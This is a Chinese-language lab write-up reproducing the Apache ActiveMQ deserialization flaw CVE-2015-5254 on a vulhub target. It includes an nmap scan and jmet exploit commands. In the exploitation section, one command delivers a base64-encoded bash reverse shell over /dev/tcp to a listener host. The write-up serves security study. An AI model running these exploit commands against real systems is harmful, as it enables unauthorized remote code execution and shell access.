









# 0x01 ActiveMQ 反序列化漏洞（CVE-2015-5254）
* ActiveMQ 是一个消息中间件，简单点说就是一种类似于`rmq`差不多的消息分发的中间件
* 它支持Java消息服务、集群、Spring Framework等
* 默认端口：
    * 8161：后台管控端口
    * 61616：服务端口

# 0x02 影响版本
* Apache ActiveMQ 5.13.0之前5.x版本中

# 0x03 靶场环境
* 使用线下`vulhub`靶场环境
``` linux
wq@wq:~/vulhub/activemq/CVE-2015-5254$ pwd
/home/wq/vulhub/activemq/CVE-2015-5254
wq@wq:~/vulhub/activemq/CVE-2015-5254$ sudo docker-compose up -d
```
* 验证靶场环境，访问：`http://192.168.66.74:8161` `http://192.168.66.74:61616` 
  

# 0x04 漏洞复现
* 端口扫描
```
PS D:\MyHackTool\SubDomainsBrute> nmap -sV 192.168.66.74 -p 8161,61616
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 17:11 ÖĐąú±ę׼ʱĽä
Nmap scan report for 192.168.66.74
Host is up (0.0011s latency).

PORT      STATE SERVICE  VERSION
8161/tcp  open  http     Jetty 8.1.16.v20140903
61616/tcp open  apachemq ActiveMQ OpenWire transport
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port61616-TCP:V=7.92%I=7%D=2/12%Time=620779D0%P=i686-pc-windows-windows
SF:%r(NULL,F4,"\0\0\0\xf0\x01ActiveMQ\0\0\0\n\x01\0\0\0\xde\0\0\0\t\0\x0cM
SF:axFrameSize\x06\0\0\0\0\x06@\0\0\0\tCacheSize\x05\0\0\x04\0\0\x0cCacheE
SF:nabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\x20MaxInactivityDuration
SF:InitalDelay\x06\0\0\0\0\0\0'\x10\0\x11TcpNoDelayEnabled\x01\x01\0\x15Ma
SF:xInactivityDuration\x06\0\0\0\0\0\0u0\0\x14TightEncodingEnabled\x01\x01
SF:\0\x11StackTraceEnabled\x01\x01");
MAC Address: 00:0C:29:57:C4:B7 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```
* 在端口扫描中看到了8161与61616 这些端口，可以推测是`amq`的一些服务

* 猜测可能会存在`amq`反序列化漏洞，在指定amq反序列化漏洞时，需要注意在本地创建一个空文件夹，且命名为`external`

  

* 执行命令：`java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.66.74 61616` 
```
INFO d.c.j.t.JMSTarget [main] Connected with ID: ID:wq-1953-1644662869736-0:1
INFO d.c.j.t.JMSTarget [main] Sent gadget "ROME" with command: "touch /tmp/success"
INFO d.c.j.t.JMSTarget [main] Shutting down connection ID:wq-1953-1644662869736-0:1
```
* 观察结果
 
  

# 0x05漏洞利用
* 利用此漏洞进行shell反弹

* 本地创建nc进行监听`nc.exe -vvlp 8888`，需要注意这里是需要base64的编码，可以尝试以下命令：

  `java -jar .\jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjE2MC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.10.134 61616`

* 其中`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjE2MC84ODg4IDA+JjE=`为paly编码。`bash -i >& /dev/tcp/192.168.10.160/8888 0>&1`

  

  

  # 0x06 总结

* 其实这个漏洞的限制也是比较大得，其一：amq得版本比较低5.13以下，但是我们在进行端口扫描的时候可以判断他是amq的一种服务，也能看到版本信息，通过访问`http://192.168.10.134:8161/`进入管理界面去看下面的版本信息是否比较低。

  * 低版本的页面管理：

    

  

  * 高版本的页面管理：

    

  

* 其次就是这个楼的需要知道对方java使用tcp传递的端口，一般情况这个端口是不开放，且自定义的端口，不容易被发现

  * 容易发现的端口，扫描后的信息为：

    
